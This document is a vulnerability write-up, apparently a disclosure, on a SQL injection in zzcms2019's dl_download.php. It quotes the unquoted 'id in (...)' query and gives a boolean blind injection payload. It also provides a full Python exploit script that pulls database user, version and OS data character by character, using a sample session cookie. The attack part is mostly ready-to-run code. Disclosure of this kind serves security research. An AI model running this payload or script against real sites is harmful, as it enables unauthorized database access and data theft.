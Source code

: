 # zzcms2019 SQL injection vulnerability in dl_download

The front desk registers the company type account publishing agent (local test, the zzcms_dl table in the database needs data)

![](https://i.loli.net/2019/09/20/XhR1fFP73qlAn6M.png)

Local testing requires the user group to have the right to download proxy information (for convenience, open directly in the background, simulate real vip users)

The vulnerability code is located at line 68 of `/dl/dl_download.php`, some of the key codes are as follows

```php
If(!empty($_POST['id'])){
    For($i=0; $i<count($_POST['id']);$i++){
    $id=$id.($_POST['id'][$i].',');
}
}else{
$founderr=1;
$ErrMsg="<li>Operation failed! Please select the information to download</li>";
}
$id=substr($id,0,strlen($id)-1);//Remove the last ","

If (isset($_POST['FileExt'])){
$FileExt=$_POST['FileExt'];
}else{
$FileExt="xls";
}

. . . . . . . . .

If ($FileExt=="xls"){
Header("Content-type:application/vnd.ms-excel;");
Header("Content-Disposition:filename=dls_".date('Y-m-d H:i:s').".xls");
}elseif ($FileExt=="doc"){
Header("Content-type:application/vnd.ms-word;");
Header("Content-Disposition:filename=dls_".date('Y-m-d H:i:s').".doc");
}

If (strpos($id,",")>0){
$sql="select * from zzcms_dl where passed=1 and id in (". $id .") order by id desc";
}else{
$sql="select * from zzcms_dl where passed=1 and id='$id'";
}
$rs=query($sql);
```

There is no single quoted package in and id in (". $id ."), so you can construct the following payload to make a boolean blind injection.

`FileExt=wtf&id[0]=9999999,(if(((ascii(substr((select @@version),1,1)))=53),1,0)))#` 

![](https://i.loli.net/2019/09/20/1uzdEiqoZVvObRs.png)

Here is exp:

```python
#coding: utf-8
import requests
import string

url = 'http://{}/dl/dl_download.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Content-Length':'23',
'Connection':'keep-alive',
'Cookie':'{}',
'Upgrade-Insecure-Requests':'1'
}

def Sqli(host,sql):
	global url
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			post_sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			data = {'id[0]':post_sqli_data,'FileExt':'wtf'}
			res = s.post(url,data=data, headers=headers)
			if '13333333333' in res.text: #自己根据实际环境做修改
				res_data += c
				print (res_data)
				break
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=dh6bhd10g47tjc4jlhqf2leqnn; UserName=admin2; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```


![](https://i.loli.net/2019/09/20/mr4ca62fn3AVgIq.png)